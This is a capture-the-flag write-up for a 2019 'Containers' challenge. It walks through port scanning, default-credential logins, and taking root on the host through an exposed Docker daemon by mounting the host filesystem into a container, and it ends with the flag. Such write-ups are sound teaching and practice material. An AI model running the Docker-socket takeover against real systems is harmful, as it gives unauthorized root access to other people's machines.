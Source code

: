 # Containers

## Challenge

Please assess the security of our new web app. The staging environment for our new app is on: 10.0.111.[100 + your_team_number] 

## Solution

We were just given an IP address, so let's see which ports are open.

```bash
nmap -sV --script=http-php-version -Pn 10.0.106.6 --dns-servers 192.168.100.1

[localhost tmctf2019-finals]$ nmap -p- -Pn 10.0.111.106 --dns-servers 192.168.100.1
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-23 18:18 PST
Nmap scan report for 10.0.111.106
Host is up (0.00076s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE
113/tcp  closed ident
8000/tcp open   http-alt
8080/tcp open   http-proxy

Nmap done: 1 IP address (1 host up) scanned in 119.35 seconds
```

Visiting `$IP:8000` takes us to a portal with a login page
- admin:admin combo logs us in but flag server is apparently down
- root:root combo logs us in but flag server is apparently down
- Attempted various types of SQL injection. Web App does not appear to be vulnerable to SQL injection attacks
- OWASP hints at no viable exploits either

Visiting `$IP:8080` responds with a json string `{"message":"page not found"}`
- No matter which HTTP Method
- netcat doesn't respond


Let's find out more about these open ports, let's grab the banners.

```bash
(env-py2) [localhost tmctf2019-finals]$ nmap -sV -sC -Pn 10.0.111.106 --dns-servers 192.168.6.1                         
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-23 21:57 PST
Nmap scan report for 10.0.111.106
Host is up (0.00054s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
113/tcp  closed ident
8000/tcp open   http       Ajenti http control panel
|_http-title: Quality containers - Homepage
8080/tcp open   http-proxy Docker/19.03.4 (linux)
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Sun, 24 Nov 2019 05:57:42 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Api-Version: 1.40
|     Docker-Experimental: false
|     Ostype: linux
|     Server: Docker/19.03.4 (linux)
|     Date: Sun, 24 Nov 2019 05:57:42 GMT
|_    Content-Length: 0
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Docker/19.03.4 (linux)
|_http-title: Site doesn't have a title (application/json).
```

Turns out port 8080 is a docker proxy. If that's an open Docker daemon socket, we could use it to run containers with root access on the host. Let's try.

```bash
(env-py2) [localhost tmctf2019-finals]$ DOCKER_HOST=tcp://10.0.111.106:8080 docker run -it -v /:/app ubuntu:latest
```

It worked, so let's do an exhaustive search for the flag.

```bash
$> grep -ir "TMCTF" /
/home/ctf/container-bridge/populate.py:    flag = 'TMCTF{muggedby2candies!}'
```

## Flag

`TMCTF{muggedby2candies!}`